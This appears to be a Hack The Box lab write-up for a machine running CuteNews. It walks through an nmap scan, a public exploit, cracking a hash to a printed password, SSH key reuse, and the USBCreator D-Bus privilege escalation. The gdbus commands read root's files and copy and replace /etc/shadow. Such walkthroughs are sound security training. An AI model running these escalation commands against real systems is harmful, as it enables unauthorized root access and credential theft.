

# Box 


https://www.hackthebox.eu/home/machines/profile/275

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Enumeration](#enumeration)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [User 2](#user-2)
  + [Root](#root)
* [Bonus](#bonus)

# Contents 

## Enumeration

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.206 10.10.10.206
```



We have a webpage. Let's take a look.


At the bottom of the page we can find 


Searching for "CuteNews" brings us to a lot of differents exploit, one that I find using searchsploit is this one : https://www.exploit-db.com/exploits/48800

## Exploitation

By using this software we have now a shell : 


We also got several hashes that I am gonna try to decrypt : 


Running hashcat : 

```bash
hashcat -m 1400 hash.txt rockyou.txt
```

We got one successful password. 

```bash
e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd:atlanta1
```


We can now try to elevate to the user.

## Post-Exploitation

### User 1


After a while on the box, I find a file in `/var/www/html/CuteNews/cdata/users` which seems to contains multiple base64 encoded strings  


By decoding these string I can see the hash that we cracked earlier. 


Let's try to login as paul : 


### User 2

After one or two hours trying to find a file that seems suspicious I checked the .ssh keys that are by default in the folder :


And that was that simple. The private key is probably the nadav one so we just have to get it.


to root.

### Root

We can see there is a .viminfo file where we can see the history, there is one particular interesting file  : `/etc/dbus-1/system.d/com.ubuntu.USBCreator.conf`


After a while i found this privesc using USBCreator : 

https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/

We can just copy/paste the command to get our flag :

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /tmp/flag.txt true
```


Rooted.


## Bonus

If you want to get a root shell you can use the previous command to copy the `/etc/shadow` file :

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /etc/shadow /tmp/shadow true
```

then use your own custom password and replace the system shadow file with your own :

```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /tmp/shadow /etc/shadow true
```

